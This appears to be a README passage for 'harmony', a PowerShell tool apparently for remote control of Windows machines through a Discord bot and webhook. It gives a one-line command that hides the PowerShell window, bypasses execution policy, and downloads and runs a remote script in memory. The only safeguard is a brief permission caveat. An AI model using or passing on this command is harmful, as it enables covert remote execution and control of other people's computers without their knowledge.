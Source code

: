 A PowerShell rewrite of the original Python code, designed to run directly in memory for greater efficiency. The PowerShell script is approximately 4 KB, significantly smaller than the ~20 MB executable generated by Python Nuitka*. The PowerShell version is also easier to update.

*While the Python code itself is around 3.5 KB, this doesn’t account for the necessary packages, nor does it consider that Python is often not pre-installed on Windows. Nuitka would need to be used to compile the code into an executable for universal compatibility across all supported Windows systems.

### **Usage Instructions:**

To execute the script, run the following command on the remote computer you own or have permission to run this on, making sure to replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
powershell -W Hidden -EP Bypass -C "$TOKEN='<YOUR_BOT_TOKEN>';$serverID='<YOUR_SERVER_ID>';$whURL='<YOUR_WEBHOOK_URL>';IEX(IWR'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1'-UseBasicParsing);exit"
```
